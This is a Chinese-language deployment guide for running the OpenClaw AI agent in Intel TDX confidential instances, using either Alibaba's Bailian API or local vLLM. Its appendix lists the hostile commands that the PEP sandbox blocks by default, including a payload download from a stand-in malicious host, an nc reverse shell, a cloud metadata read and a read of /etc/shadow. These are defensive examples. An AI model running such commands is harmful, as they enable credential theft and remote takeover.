




# OpenClaw 机密 AI Agent 最佳实践（百炼 API 与本地 vLLM）

## 背景

[OpenClaw](https://openclaw.ai) 是一款开源个人 AI Agent，支持插件式工具调用、Live Canvas 可视化工作区和 IM 平台集成。Agent 运行时会处理用户对话、调用外部工具、管理长期记忆和服务凭据，攻击面覆盖从模型请求到工具执行的完整链路。

Confidential Agent 把 OpenClaw 运行在 Intel TDX 机密实例中，结合远程证明、dm-verity、Rekor 透明日志、PEP 策略沙箱和 RATS-TLS 加密访问，保护对话、Agent 状态、SKILL 文件、模型凭据和工具执行过程。

本文覆盖两个场景：

| 场景 | 一键脚本 | 镜像与推理后端 | 推荐实例 | 数据边界 |
| --- | --- | --- | --- | --- |
| **OpenClaw + 百炼 API** | `one-click/install.sh` | 官方预构建共享 CPU 镜像 + 阿里云百炼 API | `ecs.g9i.xlarge` | Agent、记忆、凭据在 TDX 内；Prompt 和回复经 HTTPS 发往百炼 |
| **OpenClaw + vLLM** | `one-click/install-openclaw-vllm.sh` | 本地构建 GPU TEE 镜像 + 实例内 vLLM（默认 `Qwen3.6-35B-A3B`） | `ecs.gn8v-tee.4xlarge` | Agent、模型权重、推理中间态和回复都在 GPU TEE 实例内 |

百炼场景直接使用官方镜像，省去构建时间，适合快速交付。vLLM 场景需要 GPU TEE 库存，以及构建镜像、加载模型的时间，适合要求推理也不离开 TEE 的场景。

## 安全架构



| 保护对象 | 说明 |
| --- | --- |
| 用户对话 | 用户输入、工具执行上下文和 AI 回复，可能包含个人身份、医疗、金融等敏感信息 |
| Agent 记忆与状态 | OpenClaw 的长期记忆、配置、SKILL 文件和运行状态 |
| 服务凭据 | DashScope API Key、钉钉凭据、OpenClaw Gateway Token 等 |
| 模型资产（vLLM 场景） | 模型权重、GPU 驱动运行状态和推理中间态 |

| 层级 | 机制 |
| --- | --- |
| 硬件 | Intel TDX 透明加密 Guest 内存；`gn8v-tee` 同时启用 NVIDIA GPU 机密计算 |
| 镜像交付 | `image-release.json` 的 SHA-256（`release_digest`）保证镜像产物未被替换 |
| 启动链 | UKI、dm-verity 与 Rekor 参考值，由远程证明独立校验（与镜像交付校验互不依赖） |
| 运行时 | `cai-pep` 拦截 OpenClaw 的高危命令、敏感路径和网络访问（百炼场景可按实例关闭，vLLM 场景强制开启） |
| 密钥管理 | 磁盘密钥、应用配置和凭据仅在远程证明通过后注入 |
| 通信链路 | 网络服务经 TNG RATS-TLS 证明后建立加密通道；SSH 类 Agent 使用经证明下发的实例级 SSH 密钥 |

## 部署流程



一键脚本在部署机上依次：

1. 确定 Agent（`--harness`，默认 `openclaw`）和接入方式（`--access`，默认 `web+tui`）；
2. 安装并校验 `cagent`、`shelter` RPM 及原生工具；
3. 准备镜像：百炼场景默认从官方 Release 获取可信摘要并导入官方镜像（同账号同地域已有则复用）；vLLM 场景本地构建；
4. 运行 `confidential-agent init <app>` 生成实例配置，配置 operator / deployer peering；
5. 创建 TDX ECS、VPC、交换机、安全组，远程证明通过后注入磁盘密钥、应用配置和令牌；
6. 启动本地 TNG 隧道并做协议就绪探测，输出访问入口与鉴权信息。

## 前提条件

准备一台 Alibaba Cloud Linux 3（x86_64）ECS 作为部署机。它只负责编排和本地隧道转发，不需要是 TDX 实例；承载 Agent 的机密实例由脚本自动创建。

| 条件 | 百炼 API 场景 | vLLM 场景 |
| --- | --- | --- |
| 部署机磁盘 | 预构建模式 ≥ 40 GB；`--image-source build` ≥ 80 GB | ≥ 200 GB |
| 目标实例 | `ecs.g9i.xlarge`，可用区 `cn-beijing-i` | `ecs.gn8v-tee.4xlarge`，可用区 `cn-beijing-l` |
| 目标系统盘 | 默认 120 GiB | 默认 512 GiB |
| 阿里云权限 | ECS、VPC、安全组、OSS、自定义镜像、`AliyunECSImageImportDefaultRole` | 同左，另需 GPU TEE 实例库存与购买权限 |
| 模型凭据 | DashScope API Key（或其他兼容推理 API Key） | 不需要 |
| 可选 | 钉钉企业内部应用凭据 | 钉钉企业内部应用凭据 |

`ecs.gn8v-tee.4xlarge` 暂无库存时，请等待库存恢复，或尝试同规格族其他可用区。

## 步骤一：准备凭据

使用具备 ECS、VPC、OSS 创建与清理权限的专用 RAM 用户（例如 `AliyunECSFullAccess`、`AliyunVPCFullAccess`、`AliyunOSSFullAccess`），并由账号管理员确认 `AliyunECSImageImportDefaultRole`（绑定 `AliyunECSImageImportRolePolicy`）已就绪。

```bash
export ALICLOUD_ACCESS_KEY="<YOUR_ACCESS_KEY>"
export ALICLOUD_SECRET_KEY="<YOUR_SECRET_KEY>"
export DASHSCOPE_API_KEY="<YOUR_DASHSCOPE_API_KEY>"            # 仅百炼场景

# 可选：钉钉
export DINGTALK_BOT_CLIENT_ID="<YOUR_DINGTALK_CLIENT_ID>"
export DINGTALK_BOT_CLIENT_SECRET="<YOUR_DINGTALK_CLIENT_SECRET>"
```

这些变量只在当前 shell 中使用。OpenClaw 配置和令牌在远程证明通过后才注入机密实例。

## 步骤二：部署 OpenClaw + 百炼 API

```bash
INSTALL_URL="https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install.sh"
INSTALL_SCRIPT="$(mktemp)"
curl -fL --connect-timeout 10 --max-time 90 "$INSTALL_URL" -o "$INSTALL_SCRIPT" ||
  curl -fL --connect-timeout 10 --max-time 90 "https://gh-proxy.org/${INSTALL_URL}" -o "$INSTALL_SCRIPT"

# 交互式（回车采用默认值）
sh "$INSTALL_SCRIPT"

# 或非交互式
sh "$INSTALL_SCRIPT" deploy --non-interactive --yes \
  --region cn-beijing --zone-id cn-beijing-i \
  --instance-type ecs.g9i.xlarge --disk-gb 120 \
  --bailian-model qwen3.7-max
```

未指定 `--bailian-model`（或 `--model`、`DASHSCOPE_MODEL`）时，默认模型为 `qwen4-max`。

常用附加参数：

| 参数 | 作用 |
| --- | --- |
| `--enable-dingtalk` | 启用钉钉 |
| `--disable-pep` | 关闭该实例的 `exec` 策略沙箱；TDX 远程证明、资源释放和 `cai-pep attest` 能力完整保留 |
| `--allowed-cidr 203.0.113.10/32,...` | 额外允许访问的 IPv4 CIDR（默认只允许部署机公网出口） |
| `--harness codex --access ws` 等 | 改为部署其他 Agent |
| `--image-source build` / `--artifact` / `--image-id` | 改变镜像来源 |

完整参数、其他 7 种 Agent 和镜像来源选项见 [一键部署](../one-click.md)。

## 步骤三：部署 OpenClaw + vLLM（GPU TEE）

vLLM 场景在 GPU TEE 实例内启动 vLLM 的 OpenAI 兼容 API，OpenClaw 通过 `local-vllm` provider 调用 `http://127.0.0.1:8090/v1`。镜像需要本地构建，因此部署机要安装全功能版。

```bash
VLLM_URL="https://raw.githubusercontent.com/inclavare-containers/confidential-agent/master/one-click/install-openclaw-vllm.sh"
VLLM_SCRIPT="$(mktemp)"
curl -fL --connect-timeout 10 --max-time 90 "$VLLM_URL" -o "$VLLM_SCRIPT" ||
  curl -fL --connect-timeout 10 --max-time 90 "https://gh-proxy.org/${VLLM_URL}" -o "$VLLM_SCRIPT"

sh "$VLLM_SCRIPT" --non-interactive --yes \
  --region cn-beijing --zone-id cn-beijing-l \
  --instance-type ecs.gn8v-tee.4xlarge --disk-gb 512
```

| 配置项 | 默认值 | 覆盖参数 |
| --- | --- | --- |
| ModelScope 模型 | `Qwen/Qwen3.6-35B-A3B` | `--vllm-model-id` |
| 模型目录 | `/opt/models/Qwen3.6-35B-A3B` | `--vllm-model-dir` |
| 对外模型名 | `Qwen3.6-35B-A3B` | `--vllm-served-model-name` |
| vLLM 版本 | `0.28.0` | `--vllm-version` |
| vLLM 端口 | `8090` | `--vllm-port` |
| 镜像变体 | `release` | `--vllm-build-variants debug`（或 `release,debug`）用于排障 |

vLLM 场景强制启用完整 PEP，不支持 `--disable-pep`。

## 步骤四：确认访问来源

脚本默认探测部署机公网出口 IP，把 operator 入口限制为该 IP `/32`。需要从其他网络访问时，用 `--allowed-cidr` 传入一个或多个 IPv4 CIDR。脚本仍会单独探测部署机出口并写入 `deployer` peering，保证资源注入、状态检查和隧道可用。

> **警告**：`0.0.0.0/0` 会把控制面暴露给整个互联网。生产环境请限制为具体出口 IP 或企业出口网段，并妥善保管 Gateway Token。

## 步骤五：查看部署结果

成功后脚本输出部署摘要（CPU 场景示例）：

```text
Deployment summary
  state_dir:    /root/.confidential-agent
  work_dir:     /root/.confidential-agent/one-click
  spec:         /root/.confidential-agent/one-click/openclaw/instance.yaml
  service:      openclaw
  harness:      openclaw (gateway, access: web+tui)
  image_source: prebuilt
  release:      /root/.confidential-agent/cache/release-image/<version>/image-release.json (sha256:...)
  region:       cn-beijing
  zone_id:      cn-beijing-i
  instance:     ecs.g9i.xlarge
  cidrs:        203.0.113.10/32
  deployer:     203.0.113.10/32
  image_id:     m-2ze...
  Web: http://127.0.0.1:18789/openclaw/#token=<gateway-token>
  TUI: openclaw tui --url ws://127.0.0.1:18789 --token "<gateway-token>"
  ready_json:   /root/.confidential-agent/one-click/connect.json
  connect:      running (pid 12345, log /root/.confidential-agent/one-click/connect.log)
```

OpenClaw Gateway Token 放在工作目录的 `secrets/` 下。CPU 场景文件名是 `cpu-<service-id>.token`（默认 `cpu-openclaw.token`），GPU 场景是 `gateway.token`。

## 步骤六：访问 OpenClaw



实际端口以部署摘要或 `ready_json` 为准。默认百炼场景为 `~/.confidential-agent/one-click/connect.json`，vLLM 场景为 `connect-openclaw-vllm.json`。自定义 CPU 服务 ID 使用 `connect-<service-id>.json`。

**Web 控制台**：在部署机上直接打开 `http://127.0.0.1:18789/openclaw`。浏览器在个人电脑上时，先建立端口转发，再打开同一地址并输入 Gateway Token：

```bash
ssh -N -L 18789:127.0.0.1:18789 "root@<DEPLOY_MACHINE_PUBLIC_IP>"
```

**桌面客户端**：同样先建立端口转发，然后在 Remote 模式中填写 Server URL `ws://127.0.0.1:18789` 和 Gateway Token。

**TUI**：

```bash
WORK_DIR="$HOME/.confidential-agent/one-click"
READY_JSON="$WORK_DIR/connect.json"                   # vLLM 场景改为 connect-openclaw-vllm.json
TOKEN_FILE="$WORK_DIR/secrets/cpu-openclaw.token"      # vLLM 场景改为 secrets/gateway.token
CONNECT_PORT="$(jq -r '.client_endpoints[0].local_port' "$READY_JSON")"
openclaw tui --url "ws://127.0.0.1:${CONNECT_PORT}" --token "$(cat "$TOKEN_FILE")"
```

首次从新设备运行 TUI 时如果提示 `device pairing required`，先用同一 token 登录 Web 控制台，在 **Settings > Devices** 中批准该 `openclaw-tui` 请求。

**钉钉**：部署时加 `--enable-dingtalk` 并导出钉钉凭据。消息进入 OpenClaw 后，配置、凭据和 Agent 状态都在机密实例内处理。

## 步骤七：验证运行环境

内置的 `tdx-remote-attestation` skill 让用户可以直接在对话中询问：

```text
我的数据安全吗？
这个环境可信吗？
请验证当前 TDX 运行环境。
```

该 skill 在 Guest 内执行：

```bash
cai-pep attest collect-and-verify --aa-url http://localhost:8006 --tee tdx --policy default --claims
```

| 验证项 | 说明 |
| --- | --- |
| `hardware` | `submods.cpu0["ear.trustworthiness-vector"].hardware <= 32` 表示 TDX 硬件验证通过 |
| UKI / RTMR 度量 | 启动链度量，并与参考值比对 |
| GPU 证据 | vLLM 场景中 claims 含 `nvidia_gpu.0` 且字段正常，说明 GPU 证据可被验证 |
| PEP 状态 | 仅当 `cai-pep.service` 处于运行状态时，工具执行沙箱才生效 |

在部署机上查看实时状态并生成证明报告：

```bash
confidential-agent status --live
confidential-agent report --include-a2a --json > report.json
jq '{schema, services: (.services | map({
  service_id, collect_status, tee: .tee_info.tee,
  phase: .daemon.phase, app_ready: .daemon.app_ready,
  mesh_ready: .daemon.mesh_ready, attestation: .attestation.status,
  cpu_status: .attestation.ear_claims.submods.cpu0["ear.status"],
  rekor: .rekor.status
}))}' report.json
```

审计 Rekor 记录的方法见 [运维手册 · 审计 Rekor 记录](../operations.md#审计-rekor-记录)。

## 步骤八：释放资源

```bash
sh "$INSTALL_SCRIPT" cleanup     # 百炼场景；部署时自定义过 --harness / --service-id 的需一并传入
sh "$VLLM_SCRIPT" cleanup        # vLLM 场景
```

也可以直接用 CLI：

```bash
confidential-agent destroy openclaw          # 或 openclaw-vllm
confidential-agent connect stop --ready-json ~/.confidential-agent/one-click/connect.json
```

> **警告**：`destroy` / `cleanup` 不可逆，会删除实例的 ECS、安全组、VPC、交换机等资源。通过 `image publish` 导入的共享镜像会保留以供复用。彻底清理镜像和状态目录的步骤见 [运维手册 · 清理资源](../operations.md#清理资源)。



## 附录：PEP 策略拦截示例

启用 PEP 时，OpenClaw 的 `exec` 工具调用先经过 `cai-pep` 策略匹配，再进入无网络、只读的容器沙箱执行。默认拦截：

| 类型 | 示例命令 | 目的 |
| --- | --- | --- |
| 网络访问 | `curl http://169.254.169.254/latest/meta-data/` | 防止读取云元数据服务泄露凭据 |
| 下载外部代码 | `wget http://malicious.example.com/payload` | 防止 Prompt 注入下载恶意载荷 |
| 反向 Shell | `nc 10.0.0.99 4444 -e /bin/bash` | 阻止建立反向连接 |
| 远程登录 | `ssh root@external-host` | 防止越权访问外部系统 |
| 容器操作 | `docker ps` | 防止操作宿主机容器 |
| 敏感路径 | `cat /etc/shadow` | 阻止读取敏感系统文件 |

策略文件见 [`examples/openclaw/files/cai-pep-default-policy.json`](../../../examples/openclaw/files/cai-pep-default-policy.json)，数据流见 [架构设计 · PEP](../../design/architecture.md#8-pep-数据流)。

## 常见问题

**`peering 'ops' already exists with a different CIDR`**：传入与已有 peering 一致的 `--allowed-cidr`，或在交互模式中确认替换；非交互模式加 `--yes`。

**`Shelter is required` 或官方元数据下载失败**：检查 GitHub Release 是否可达（见 [代理设置](../../install.md#7-网络与-github-代理)）。OCI 产物先直连 `ghcr.io`，失败后切换 `ghcr.1ms.run`。已有本地产物时可用 `--artifact` 并提供可信 `release_digest`。

**本地隧道端口打不开**：

```bash
tail -F ~/.confidential-agent/one-click/connect.log                 # vLLM：connect-openclaw-vllm.log
confidential-agent status --live
```

部署机公网出口变化后，重跑一键脚本，或更新 `deployer` peering 并执行 `confidential-agent peering apply`。

**百炼场景对话不可用**：检查 `DASHSCOPE_API_KEY`、模型名和账号额度，并查看服务日志：

```bash
confidential-agent ssh openclaw -- journalctl -u cai-allinone.service -n 200 --no-pager
```

**vLLM 场景长时间不可用**：首次启动要准备 GPU 驱动、下载模型并加载权重，部署端默认最多等待 2 小时。部署了 debug 变体时可以登录 Guest 检查：

```bash
nvidia-smi
systemctl status cai-nvidia-cc-bootstrap.service cai-modelscope-fetch.service cai-vllm.service --no-pager -l
curl -fsS http://127.0.0.1:8090/v1/models
journalctl -u cai-openclaw-gateway.service -n 200 --no-pager
```

**TDX skill 无法确认环境可信**：

```bash
confidential-agent ssh openclaw -- systemctl status trustiflux-api-server.service attestation-agent.service --no-pager -l
confidential-agent ssh openclaw -- cai-pep attest collect-and-verify --aa-url http://localhost:8006 --tee tdx --policy default --claims
```

**钉钉无响应**：确认部署时传了 `--enable-dingtalk`、钉钉凭据正确、企业应用已开启机器人消息权限，再查看服务日志。

**`cai-pep` 拒绝了工具调用**：

```bash
confidential-agent ssh openclaw -- journalctl -u cai-pep.service -n 200 --no-pager
```
